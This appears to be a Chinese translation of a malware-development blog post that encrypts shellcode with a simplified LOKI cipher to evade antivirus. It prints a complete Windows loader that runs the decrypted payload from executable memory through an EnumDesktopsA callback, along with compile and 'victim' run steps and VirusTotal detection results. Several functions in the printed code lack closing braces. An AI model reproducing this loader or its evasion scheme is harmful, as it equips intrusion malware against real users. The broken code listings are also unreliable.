





\newpage
\subsection{恶意软件与密码学研究（第 1 部分，第 29 篇）：LOKI 载荷加密（简单的 C 示例）}

﷽

{width="80%"}

这篇文章是我自己研究如何通过另一种逻辑加密载荷来尝试规避杀毒引擎的成果：LOKI 对称密钥分组密码。和往常一样，在探索各种密码学算法时，我决定看看把它用于载荷的加密/解密会有什么效果。

### LOKI

三位澳大利亚密码学家 Lawrie Brown、Josef Pieprzyk 和 Jennifer Seberry 于 1990 年首次以「LOKI」之名发表了 LOKI（LOKI89）。LOKI89 曾提交给欧洲 RIPE 项目评审，但未被选中。LOKI 是作为 DES 的潜在替代方案提出的。

### 实战示例

我们来实现它。LOKI 算法使用 64 位分组和 64 位密钥。LOKI 的分组加密函数通过多轮 Feistel 结构进行加密。下面详细逐步解释这个函数是如何工作的：

```cpp
void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | 
  ((u32)block[1] << 16) | ((u32)block[2] << 8) | 
  (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
  u32 temp = right;
  right = left ^ (right + ((u32)key[round % KEY_SIZE]));
  left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

```

64 位分组被分成两个 32 位的半块：`left` 和 `right`：

```cpp
u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
((u32)block[2] << 8) | (u32)block[3];
u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
((u32)block[6] << 8) | (u32)block[7];
```

左半块（`left`）由分组的前四个字节拼接而成。

右半块（`right`）由分组的后四个字节拼接而成。

```cpp
for (int round = 0; round < ROUNDS; round++) {
  u32 temp = right;
  right = left ^ (right + ((u32)key[round % KEY_SIZE]));
  left = temp;

```

每一轮中：

`temp` 保存 `right` 的当前值。

`right` 被更新为 `left` 与「`right` 加上某个密钥值」之和的异或结果。密钥值通过 `key[round % KEY_SIZE]` 循环选取。

`left` 被更新为保存在 `temp` 中的 `right` 的旧值。

最后，重建加密后的分组：

```cpp
block[0] = (left >> 24) & 0xFF;
block[1] = (left >> 16) & 0xFF;
block[2] = (left >> 8) & 0xFF;
block[3] = left & 0xFF;
block[4] = (right >> 24) & 0xFF;
block[5] = (right >> 16) & 0xFF;
block[6] = (right >> 8) & 0xFF;
block[7] = right & 0xFF;
```

完成所有轮次后，左右两半被合并回原来的分组。32 位的 `left` 和 `right` 值被拆分成字节，写回 `block` 数组。

在我的示例中，这个函数给出了 LOKI 加密过程的一个简化视图，聚焦于拆分、处理和重新组合数据的核心操作。

同样地，再实现解密逻辑：

```cpp
void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
  u32 temp = left;
  left = right ^ (left + ((u32)key[round % KEY_SIZE]));
  right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

```

然后我们需要 `loki_encrypt_shellcode` 函数，用 LOKI 分组密码加密给定的 shellcode：

```cpp
void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

```

它是怎么工作的？

以 8 字节为单位遍历 shellcode：

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);

```

对每个 8 字节分组，用当前分组和加密密钥调用 `loki_encrypt` 函数。`shellcode + i * BLOCK_SIZE` 计算出 shellcode 中当前 8 字节分组的地址。

处理完所有完整的 8 字节分组后，函数检查是否还有剩余字节无法构成一个完整分组。

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);

```

注意，和往常一样，一个 8 字节的填充数组 `pad` 被初始化为 `0x90`（x86 汇编中的 NOP 指令）。

这个函数确保整个 shellcode（无论其长度如何）都用 LOKI 算法加密，并妥善处理任何不完整的分组。

然后创建解密逻辑：

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

```

用于运行载荷的最终完整源代码看起来就是这样（`hack.c`）：

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
typedef uint8_t u8;

u8 key[KEY_SIZE] = {0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF};

void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
  u32 temp = right;
  right = left ^ (right + ((u32)key[round % KEY_SIZE]));
  left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
  u32 temp = left;
  left = right ^ (left + ((u32)key[round % KEY_SIZE]));
  right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;

void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;

```

如你所见，为了运行载荷，我使用了 `EnumDesktopsA` 技巧。

同样和往常一样，为了简单起见，使用了 meow-meow 消息框载荷：

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

为了验证正确性，我添加了比较和打印逻辑。

### 演示

我们来看看实际效果。编译它（在我的 Kali 机器上）：

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}

然后，只需在受害者的机器上运行它（我的例子中是 Windows 11 x64）：

```powershell
.\hack.exe
```

{width="80%"}

如你所见，一切运行完美！=..=

计算香农熵：

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}

我们的载荷位于 `.text` 节中。

我们把 `hack.exe` 上传到 VirusTotal 看看：

{width="80%"}

[https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection](https://www.virustotal.com/gui/file/04bede4d03cd8f610fa90c4d41e1439e3adcd66069a378b9db4f94e62a7572cd/detection)

如你所见，73 个杀毒引擎中只有 27 个把我们的文件判定为恶意。

但这并不是因为载荷被加密，而是因为调用了 `VirtualAlloc`、`RtlMoveMemory`、`EnumDesktopsA` 等 Windows API。

Biham 和 Shamir 成功运用差分密码分析，高效地解密了 11 轮及以下的 LOKI，速度超过了暴力破解方法。

我希望这篇文章对恶意软件研究人员、C/C++ 程序员有所帮助，能让蓝队成员了解这个有趣的加密技巧，并为红队成员的武器库增添一件武器。

[LOKI](https://en.wikipedia.org/wiki/LOKI)  
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-07-16-malware-cryptography-29)

加密过程包含多轮（在我的实现中是 16 轮）：
